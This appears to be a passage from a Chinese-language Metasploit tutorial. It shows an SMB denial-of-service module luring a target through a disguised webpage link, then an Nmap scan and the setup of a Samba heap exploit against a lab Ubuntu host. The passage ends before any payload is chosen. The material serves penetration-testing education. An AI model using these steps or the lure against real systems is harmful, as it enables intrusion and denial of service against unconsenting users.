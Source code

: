 msf auxiliary(ms10_006_negotiate_response_loop) > run
[*] Starting the malicious SMB service...
[*] To trigger, the vulnerable client should try to access: \\192.168.56.101\Shared\Anything
[*] Server started. 
```

现在我们可以通过制作一个网页并将该链接附加到网页上，然后发送给目标用户，使链接看起来不那么可疑。一旦目标点击该链接，系统将完全冻结，并导致完全的拒绝服务，从而导致系统重新启动。

# 利用 Linux（Ubuntu）机器

Linux 是继 Windows 之后使用最广泛的操作系统之一。在之前的几个示例中，我们看到了如何通过利用可用服务中的关键缺陷来渗透 Windows 机器。在本示例中，我们将处理 Linux 操作系统。我们将在本示例中使用 Ubuntu 9.0，但是对于渗透运行 Samba 服务的任何 Linux 和 Solaris 版本，该过程都是类似的。让我们继续进行本示例。

## 准备工作

我们将从扫描目标 Linux 机器开始，以收集有关可用服务的信息。让我们进行快速的 Nmap 扫描并分析其结果：

```
msf > nmap -sT 192.168.56.101
[*] exec: nmap 192.168.56.101
Starting Nmap 5.20 ( http://nmap.org ) at 2011-11-05 13:35 IST
Warning: Traceroute does not support idle or connect scan, disabling...
Nmap scan report for 192.168.56.101
Host is up (0.00048s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.2.3 ((Ubuntu) PHP/5.2.1)
|_html-title: Index of /
139/tcp open netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
445/tcp open netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
MAC Address: 08:00:27:34:A8:87 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ) 
```

现在我们已经收集了有关目标的信息。我们的下一步将是选择一个利用和一个适当的有效载荷。

## 如何做...

渗透 Linux 机器的过程与 Windows 的类似。按照以下步骤进行：

1.  我们需要关注的是选择正确的利用和有效载荷。让我们搜索一下 Metasploit 目录中是否有任何 Samba 利用可用：

```
    msf > search Samba 
    ```

1.  该命令将提供 Samba 的各种辅助和利用模块的列表。我们将使用列为良好排名利用的`exploit/linux/samba/lsa_transnames_heap`模块。因此，它将更有可能利用目标。让我们将利用设置为活动状态并设置参数。

```
    msf > use exploit/linux/samba/lsa_transnames_heap
    msf exploit(lsa_transnames_heap) > show options
    Module options (exploit/linux/samba/lsa_transnames_heap):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 445 yes Set the SMB service port
    SMBPIPE LSARPC yes The pipe name to use
    Exploit target:
    Id Name
    -- ----
    0 Linux vsyscall
    msf exploit(lsa_transnames_heap) > set RHOST 192.168.56.101
    RHOST => 192.168.56.101
    msf exploit(lsa_transnames_heap) > 
```